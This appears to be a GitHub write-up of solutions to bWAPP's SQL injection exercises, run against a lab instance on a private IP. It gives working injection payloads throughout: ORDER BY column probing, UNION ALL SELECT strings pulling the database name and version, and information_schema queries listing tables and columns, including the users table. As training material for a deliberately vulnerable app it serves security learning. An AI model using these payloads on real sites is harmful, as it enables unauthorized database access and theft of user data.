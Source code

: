 # bWAPP-Solutions
bWAPP - SQL Injection

We added `'` character to the id in the url to see what kind of output we will get.

`172.16.112.128/bWAPP/sqli_2.php?movie=1'&action=go`

The output depends on the script's quality. If script filters input then no SQL error would be returned. Page will load normally or give a warning like “Attack Spotted, Your IP Address has been recorded” or something similar.  However we have got error like this: 

```
Error: You have an error in your SQL syntax; check the manual that corresponds to your 
MySQL server version for the right syntax to use near ''' at line 1
```

Now we know that there is no any filter. Since we got an error, we are sure that this is SQL injectable and we can try to get some hidden data information from database.
 
##### SQL Injection (Select/GET)

###### Find Column Number of the SQL statement

There are two ways to find number of columns.

1.Using Order by

Order by  statement tell the database how to order the result. For example, the command below will order all the result by ascending order. Also we can change asc to desc.

Select name,age from user Where id=1 Order by user asc

It doesn't matter if column integer or string. Server will automatically order it by checking column type. Order by also can have number instead of column in select statement.  Using this method we can check how many column numbers in table.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 order by 1-- &action=go` and we didn't get error until we enter column number 8.That means we have 7 column in our  movies table.

We put `--` comment character to end of SQL command to get rid of leftover strays. 

2.Using Union

Using union select or union all select statements we can see which columns are outputted to the site. Then we can use to retrieve and output our data. Using union all select can prevent type mismatch and get around queries that use the keyword DISTINCT. Note that, we can also get number of columns by adding numbers to the union statement until page will be displayed normally.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,2,3,4,5,6,7--&action=go`

with “and 1=0” because only want to get data from union all statement. If we just wrote union statement without “and 1=0” then first select would overwrite second one.

Now we know that we can retrieve stolen data using 2,3,5,4 columns and we'll get database name and version using these columns.

###### Find Name of the Current Database

Adding database() to second column we can retrieve database name in the title section.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,database(),3,4,5,6,7--&action=go`

###### Find Version of the Database

Adding version() or @@version to second column we can retrieve database version in the title section.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,version(),3,4,5,6,7--&action=go`

or 
```
http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,version(),@@version,4,5,6,7--&action=go` 
```

##### SQL Injection (Search/POST)

###### List Table Names and Number of Records in Each Table of the Database.

All the table names and column names holds in Information_Schema database. To get tables, we would use information_schema like this:

Select table_name from information_schema.tables 

Using this query we can get all of the table names from database. Also column names by changing tables to columns. This only avaliable in version 5 and up. We find out version of the database adding version() to union statement. 

If we type “ma” to the search field we can see that query is something like “Select name From table Where name like '%ma%'. Server looking for value in the table containing “ma” pattern and can have text before and after it.  It could be amazing, Spider-Man or just Man.  We also can know what kind of input program expects from sqli_6.php

Using this SQL query we can get all of table schema and names from information_schema.tables.

```
' and 1 = 0 union all select 1,table_schema,table_name,4,5,6,7 from information_schema.tables where 1=0 or 1=1-- '
```

There were a lot of database name and table names. The reason is that we added 1=1 to end of query and that means bring all of the database and table names to us. There are more elegant ways to get table names of the database. For example,
```
' and 1=0 union all select 1,table_schema,table_name,4,table_rows,6,7 from information_schema.tables where table_schema = 'bwapp'-- '
```

table_schema was written to title which corresponds column 2, table_name was written to release which corresponds to column 3 and table_rows (records) was written to character which corresponds to column 5.

###### List Column Names of Each Table

We can retrieve column names by writing column names to information_schema instead of table names.  For example, 

Select column_name from information_schema.columns

Let's enter each table name to query to get columns names of table.

1. Blog Table
```
' and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'blog' and table_schema = 'bwapp'-- '
```

2. Heroes Table
```
' and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'heroes' and table_schema = 'bwapp'-- '
```

3. Movies Table
```
' and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'movies' and table_schema = 'bwapp'-- '
```

4. Users Table
```
' and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'users' and table_schema = 'bwapp'-- '
```







